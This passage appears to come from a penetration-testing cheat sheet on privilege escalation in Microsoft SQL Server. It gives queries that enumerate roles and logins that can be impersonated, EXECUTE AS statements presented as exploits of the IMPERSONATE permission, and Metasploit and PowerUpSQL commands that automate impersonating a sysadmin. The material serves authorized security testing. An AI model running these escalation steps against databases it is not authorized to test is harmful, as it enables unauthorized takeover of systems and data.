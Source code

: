 ```sql
SELECT db_name(), r.[name], p.[name] FROM sys.database_role_members m JOIN sys.database_principals r ON m.role_principal_id = r.principal_id JOIN sys.database_principals p ON m.member_principal_id = p.principal_id;

-- Maps the fixed-database role(s) to the user(s). Taken from https://docs.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-database-role-members-transact-sql?view=sql-server-ver15#example
SELECT DP1.name AS DatabaseRoleName, isnull (DP2.name, 'No members') AS DatabaseUserName FROM sys.database_role_members AS DRM RIGHT OUTER JOIN sys.database_principals AS DP1 ON DRM.role_principal_id = DP1.principal_id LEFT OUTER JOIN sys.database_principals AS DP2 ON DRM.member_principal_id = DP2.principal_id   WHERE DP1.type = 'R' ORDER BY DP1.name;
```

###### IMPERSONATE permission

The `IMPERSONATE` permission allows for the context switching of a SQL
statement by impersonating another login or database user. An user granted the
`IMPERSONATE` permission can thus elevate its privileges to the ones of the
user he is allowed to impersonate, resulting in a potential elevation of
privileges.    

This permission is implied for the `sysadmin` role for all databases, and
the `db_owner` role members in databases that they own. Indeed, impersonation
of a login (`EXECUTE AS LOGIN`) grants server level permissions (of the
impersonated login) while the impersonation of an user (`EXECUTE AS USER`) only
grant permissions at the database level.

The following queries can be used to exploit the `IMPERSONATE` permission:

```sql
-- List the SQL Server logins that can be impersonated by the current user
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

-- Swith the execution context of the session to the specified login. Requires the IMPERSONATE permission on the specified login.
EXECUTE AS LOGIN = '<LOGIN>';
EXECUTE AS LOGIN = '<DOMAIN>\\<LOGIN>';

-- Swith the execution context in the database to the specified user. Requires the IMPERSONATE permission on the specified user.
EXECUTE AS USER = '<USER>';
```

The `Metasploit`'s `auxiliary/admin/mssql/mssql_escalate_execute_as` module and
the `PowerShell` cmdlet `Invoke-SQLAuditPrivImpersonateLogin` of the
`PowerUpSQL` suite can be used to automate the impersonation of an user having
the `sysadmin` role :

```bash
msf5> use auxiliary/admin/mssql/mssql_escalate_execute_as

Invoke-SQLAuditPrivImpersonateLogin -Instance <HOSTNAME | IP>\<INSTANCE> -Username <USERNAME> -Password <PASSWORD> -Exploit
Invoke-SQLAuditPrivImpersonateLogin -Instance <HOSTNAME | IP>\<INSTANCE> -Credential <PSCredential> -Exploit
```

